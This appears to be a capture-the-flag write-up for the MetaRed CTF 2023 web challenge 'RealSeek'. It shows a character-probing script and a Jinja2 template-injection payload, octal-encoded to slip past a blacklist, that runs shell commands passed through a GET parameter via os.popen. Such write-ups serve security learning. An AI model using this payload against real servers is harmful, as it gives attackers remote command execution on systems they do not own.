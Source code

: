 ```yaml
---
title: MetaRed CTF 2023 - RealSeek
date: Thu Oct 26 04:02:03 PM +04 2023
categories: [Writeup]
tags: [ctf,metaredctf,metaredctf2023,web,python,jwt]
---
```


## Description

\<No Description After CTF Ended...\>

[Challenge](https://seek.ctf.cert.unlp.edu.ar)

## Solution

![realseek-1](/assets/images/metared/2023/realseek-1.png)

Upgraded version of previous challenge `Babyseek`

Identify blocked chars: 

```py
import requests, string, base64

URL = 'https://seek.ctf.cert.unlp.edu.ar/'
for c in string.printable:
    resp = requests.post(URL, json={"encoded": base64.b64encode(c.encode()).decode()})
    print(resp.text)
    if 'ILLEGAL CHARACTER' in resp.text:
        print(f"{c} blocked")
```

> Blocked Chars: ```0, 2, 4, 5, 6, 8, 9, f, j, k, v, w, x, y, z, A, B, C, D, E, G, H, J, K, L, M, N, O, P, Q, R, T, U, V, W, X, Y, Z, !, #, %, &, ', +, ,, -, ., /, :, ;, <, =, >, ?, @, ^, _, `, |, ~```
{: .prompt-info }

Since they are many characters blocked we have to get smart about our payload. From my observation I could use `request` within the boundaries and after that I built the payload.

Reference: [Jinja2 SSTI - without several chars](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection/jinja2-ssti#without-several-chars)


Verbose Payload: 
{% raw %}
```
{{
    request["application"]
    ["__globals__"]   
    ["__builtins__"]  
    ["__import__"]  
    ("os")["popen"] 
    (request["args"]["c"])["read"]()
}}
```

Encoded Payload: 

```
{{request["application"]["\137\137globals\137\137"]["\137\137builtins\137\137"]["\137\137import\137\137"]("os")["popen"](request["args"]["c"])["read"]()}}
```
{% endraw %}

> `\137` is `_`, but in Octal code.
{: .prompt-info }

> For the payload to work `request["args"]["c"]` is required, meaning we should include `GET param "c"` as command, like `ls` or `cat flag`. Since spaces are restricted I couldnt find other workaround.
{: .prompt-warning }

Enumerate:

![realseek-2](/assets/images/metared/2023/realseek-2.png)

Profit:

![realseek-3](/assets/images/metared/2023/realseek-3.png)

> Flag: FLAG{U_4R_TH#_R34L_BYP4SS3R!}
{: .prompt-tip }